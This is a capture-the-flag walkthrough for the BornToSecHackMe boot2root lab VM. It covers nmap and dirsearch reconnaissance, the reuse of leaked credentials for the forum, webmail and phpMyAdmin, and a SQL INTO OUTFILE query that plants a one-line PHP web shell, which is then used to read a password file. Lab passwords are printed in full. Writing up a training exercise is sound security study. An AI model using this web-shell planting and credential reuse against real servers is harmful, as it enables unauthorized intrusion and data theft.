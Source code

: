 
### Step 1.
```bash
# List all the devices in the private network (replace by network ip address)
sudo nmap --unprivileged -sn 192.168.64.0/24
```

Once revealed, let's add ip address to the env variables.
```bash
export IP=192.168.64.6
```

<hr>

### Step 2.
```bash
# List all the opened ports for specified ip address (replace by device ip address)
sudo nmap $IP
# or even better
sudo nmap -T4 -A -v $IP
```

<details>
    <summary>Info about of opened ports</summary>

```bash
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
993/tcp open  ssl/imaps?
```

</details>

<details>
    <summary>More detailed info about of opened ports</summary>

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: SASL-IR IDLE listed have LITERAL+ capabilities ENABLE more post-login Pre-login LOGIN-REFERRALS OK LOGINDISABLEDA0001 IMAP4rev1 STARTTLS ID
|_ssl-date: 2022-10-08T19:41:46+00:00; 0s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=BornToSec
| Issuer: commonName=BornToSec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-10-08T00:19:46
| Not valid after:  2025-10-05T00:19:46
| MD5:   3f63 02ca 0bb1 e732 9987 6887 3623 86a3
|_SHA-1: eebc f8de 3422 dd63 5314 9d47 811f f6d1 8f77 c98d
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
993/tcp open  ssl/imaps?
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

<hr>

### Step 3.

For this step we'll use dirsearch - an advanced web path brute-forcer.

See [github page](https://github.com/maurosoria/dirsearch) to know installation steps and advanced usage.


```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning https server</summary>

```bash
[10:36:23] 403 -  241B  - /cgi-bin/
[10:36:28] 301 -  249B  - /forum  ->  https://192.168.64.6/forum/
[10:36:34] 301 -  252B  - /phpmyadmin  ->  https://192.168.64.6/phpmyadmin/
[10:36:34] 200 -    2KB - /forum/
[10:36:37] 403 -  240B  - /server-status/
[10:36:37] 403 -  240B  - /server-status
[10:36:41] 200 -    2KB - /phpmyadmin/index.php
[10:36:41] 200 -    2KB - /phpmyadmin/
[10:36:42] 301 -  251B  - /webmail  ->  https://192.168.64.6/webmail/
[10:36:42] 403 -  254B  - /webmail/src/configtest.php
```

</details>


```bash
python3 dirsearch.py -e php -u http://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning http server</summary>

```
[10:30:07] 403 -  242B  - /.ht_wsr.txt
[10:30:07] 403 -  242B  - /.htaccess.sample
[10:30:07] 403 -  241B  - /.htaccess.orig
[10:30:07] 403 -  242B  - /.htaccess.bak1
[10:30:07] 403 -  240B  - /.htaccessOLD
[10:30:07] 403 -  241B  - /.htaccessOLD2
[10:30:07] 403 -  240B  - /.htaccess.save
[10:30:07] 403 -  237B  - /.htm
[10:30:07] 403 -  241B  - /.htaccessBAK
[10:30:07] 403 -  241B  - /.htaccess_sc
[10:30:07] 403 -  243B  - /.htaccess_orig
[10:30:07] 403 -  245B  - /.htpasswd_test
[10:30:07] 403 -  237B  - /.html
[10:30:07] 403 -  241B  - /.htpasswds
[10:30:07] 403 -  243B  - /.htaccess_extra
[10:30:07] 403 -  241B  - /.httr-oauth
[10:30:18] 403 -  240B  - /cgi-bin/
[10:30:21] 403 -  245B  - /doc/html/index.html
[10:30:21] 403 -  247B  - /doc/en/changes.html
[10:30:21] 403 -  243B  - /doc/stable.version
[10:30:21] 403 -  237B  - /doc/
[10:30:21] 403 -  239B  - /doc/api/
[10:30:22] 301 -  247B  - /fonts  ->  http://192.168.64.6/fonts/
[10:30:22] 403 -  239B  - /forum/
[10:30:22] 403 -  242B  - /forum/admin/
[10:30:22] 403 -  238B  - /forum
[10:30:22] 403 -  247B  - /forum/phpmyadmin/
[10:30:23] 403 -  248B  - /forum/install/install.php
[10:30:32] 403 -  240B  - /server-status/
[10:30:32] 403 -  239B  - /server-status
```

</details>

<hr>

### Step 4.
Go to the `https://$IP/forum/` <br>
Look into log file named `Probleme login ?`: 
```
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

From this output we can understand, that `lmezard` tried to connect to the server <br>
and accidentally (or not) typed password in the login field. Such a mistake!

Use this pair to login as a user on the forum, and get the mail from account page. <br>
Mail: `laurie@borntosec.net`

<hr>

### Step 5.
We use this credentials to login to another revealed service (webmail)

Go to the `https://$IP/webmail/` <br>
Login: `laurie@borntosec.net` <br>
Password: `!q\]Ej?*5K5cy*AJ` <br>

Check out the mail with `DB Access` subject and get another credentials.

<hr>

### Step 6.

Check login credentials for the DB.

Go to the `https://$IP/phpmyadmin/` <br>
Login: `root` <br>
Password: `Fg-'kKXBj87E:aJ$` <br>

<hr>

### Step 7.

The next thing we'll do is trying to open a [webshell](https://en.wikipedia.org/wiki/Web_shell)

```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
<summary>Scan of /forum endpoint</summary>

```bash
[11:11:54] 301 -  254B  - /forum/images  ->  https://192.168.64.6/forum/images/
[11:11:54] 200 -  474B  - /forum/images/
[11:11:54] 301 -  255B  - /forum/includes  ->  https://192.168.64.6/forum/includes/
[11:11:54] 200 -  810B  - /forum/includes/

[11:11:55] 301 -  251B  - /forum/js  ->  https://192.168.64.6/forum/js/
[11:11:56] 200 -  519B  - /forum/js/
[11:11:56] 301 -  252B  - /forum/lang  ->  https://192.168.64.6/forum/lang/
[11:12:02] 301 -  254B  - /forum/modules  ->  https://192.168.64.6/forum/modules/
[11:12:02] 200 -  518B  - /forum/modules/

[11:12:14] 301 -  257B  - /forum/templates_c  ->  https://192.168.64.6/forum/templates_c/
[11:12:14] 200 -    1KB - /forum/templates_c/

[11:12:16] 301 -  253B  - /forum/themes  ->  https://192.168.64.6/forum/themes/
[11:12:16] 200 -  449B  - /forum/themes/
[11:12:17] 301 -  253B  - /forum/update  ->  https://192.168.64.6/forum/update/
```
</details>

From the scan we can understand that there are several accessible directories...

<hr>

### Step 8.
    
Go to the `https://$IP/phpmyadmin/` <br>
Login: `root` <br>
Password: `Fg-'kKXBj87E:aJ$` <br>

Create webshell file using SQL query (You probably want check [this](https://www.bases-hacking.org/injections-sql-avancees.html) out)
```SQL
SELECT '<?=`$_GET[x]`?>' INTO OUTFILE '/var/www/forum/templates_c/wsh.php'
```

### Step 9.
Using `wsh.sh` let's go through some directories...

This command reveals ftp credentials for lmezard.
```bash
$ cat /home/LOOKATME/password

lmezard:G!@M6f4Eatau{sF"
```

Continue in the `puzzles` section...